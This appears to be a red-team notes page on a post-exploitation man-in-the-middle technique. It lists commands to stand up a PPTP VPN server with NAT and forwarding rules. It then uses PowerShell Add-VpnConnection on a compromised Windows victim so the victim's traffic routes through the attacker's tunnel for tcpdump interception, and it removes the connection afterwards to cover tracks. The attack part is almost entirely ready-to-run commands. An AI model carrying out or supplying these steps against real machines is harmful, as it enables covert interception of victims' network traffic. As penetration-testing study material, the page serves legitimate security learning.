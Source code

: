 # Living off the Land

Install the dependency according to your package manager.

```
# apt install -y pptpd
```

For `localip` just include the gateway IP and `remoteip` just specify the available IP ranges that isn't occupied in the current subnet network.

```
# cat /etc/pptpd.conf
localip 192.168.0.1
remoteip 192.168.0.234-238
..[omitted]..
```

Specify the credentials.

```
# cat /etc/ppp/chap-secrets
# Secrets for authentication using CHAP
# client	server	secret			IP addresses
<username>  *       <password>      *
```

Create the firewall rules to accept incoming and outgoing PPTP network traffic.

```
# iptables -t nat -A POSTROUTING -o enp7s0 -j MASQUERADE
iptables -A FORWARD -i ppp0 -o enp7s0 -j ACCEPT
iptables -A FORWARD -i enp7s0 -o ppp0 -m state --state ESTABLISHED,RELATED -j ACCEPT
```

Enable port forwarding.

```
# echo 1 > /proc/sys/net/ipv4/ip_forward
```

Restart PPTP daemon service and check network statistics for the listening port.

```
# systemctl restart pptpd

# ss -antpl | grep :1723
```

```
$ ip address show enp7s0

# ip route
```

Then execute post module to make the target connect to the attacker's VPN tunnel.

```
PS C:\> Add-VpnConnection -Name "<vpn_name>" -ServerAddress <VPN_server_IP> -TunnelType PPTP -EncryptionLevel Required -PassThru
```

```
PS C:\> Add-VpnConnection -Name "<vpn_name>" -ServerAddress <VPN_server_IP> -TunnelType L2TP -EncryptionLevel Required -PassThru -L2tpPsk "<password>" -Confirm:$false -Force
```

Then the victim should be authenticated in the attacker's VPN tunnel.

```
PS C:\> Get-VpnConnection -Name "<vpn_name>"
```

You can check the route network that contains the same configuration file (`/etc/pptpd.conf`) from `remoteip`.

```
metepreter > route
```

Intercept the packets.

```
# tcpdump -i <interface>
```

Delete the VPN connection.

```
PS C:\> Get-VpnConnection -Name "<vpn_name>" | Remove-VpnConnection -Force -Confirm:$false
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x07 - Maintaining Access/Gathering Information/Windows/WireTap/MITM/C2 Frameworks/Metasploit]]

### Microsoft

- [Powershell Module: `Add-VpnConnection`](https://learn.microsoft.com/en-us/powershell/module/vpnclient/add-vpnconnection?view=windowsserver2025-ps)

### TrustedSec

- [TrustedSec: Abusing Windows Built-in VPN Providers](https://trustedsec.com/blog/abusing-windows-built-in-vpn-providers)